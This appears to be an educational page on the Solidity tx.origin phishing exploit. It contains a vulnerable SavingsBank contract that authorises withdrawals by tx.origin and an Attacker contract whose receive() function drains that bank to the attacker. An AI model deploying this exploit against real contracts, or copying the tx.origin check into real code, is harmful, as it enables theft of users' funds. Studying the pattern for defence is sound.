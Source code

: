 <h2>tx.origin Phishing Exploit</h2>
<div>
<p>
In this exploit, the attacker abuses tx.origin. What tx.origin does is it stores the address of the original sender, while msg.sender stores the address of the caller of the function. 
So if EOA calls his contract A and then from contract A it calls contact B, then tx.origin is the EOA but msg.sender is contract A.
</p>
<p>
Now what the attacker does is he sets up a receive function that then calls the contact B withdraw all function. And what ends up happening is that it passes the check that tx.origin is owner of the funds in contact B and sends the funds to the attacker specified in the parameter _recipient as shown in code below.
</p>
<p>
What needs to happen for the attacker is that his victim has to send some funds to his Contract A AND also has to have some funds in Contact B. So there is a lot that has to go in his way, it's not like other exploits where he just does everything in few minutes, calls a bunch of function and he is done. No he has to passively wait for someone to get trapped by sending funds to his Attacker Contract.
</p>
<p>
I understand that this might work for some non techincal people and especially for the advertisements and fake "I'll double your coins" schemes but in reality, having a bit of know how and you really need to have know how if you're in crypto then it shouldn't really cause a threat in my opinion. At this points it's the stupidity of the victim for falling for such a scam I would say than anything else.

Contract B
<pre><code>contract SavingsBank {
    address public owner;
    constructor(){
        owner = msg.sender;
    }
    function deposit() public payable {
       // to receive ether.
    }
   
    function withdrawAll(address _recipient) public {
        require(tx.origin == owner);
        (bool sent,) = _recipient.call{value:address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
</code></pre>

Contract A - Attacker

<pre><code>import "./savingsBank.sol";
contract Attacker {
    SavingsBank public savingsbank;
    address attacker;
    constructor(address _savingsBankAddress, address _attackerAddress) {
    savingsbank = SavingsBank(_savingsBankAddress);
    attacker = _attackerAddress;
    }
    receive() external payable{
        savingsbank.withdrawAll(attacker);
    }
    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    } 
}
</code></pre>

<a href="https://blog.finxter.com/tx-origin-phishing-attack-smart-contract-security-series-part-4/" target="_blank" rel="noopener noreferrer">link</a>
</p>
</div>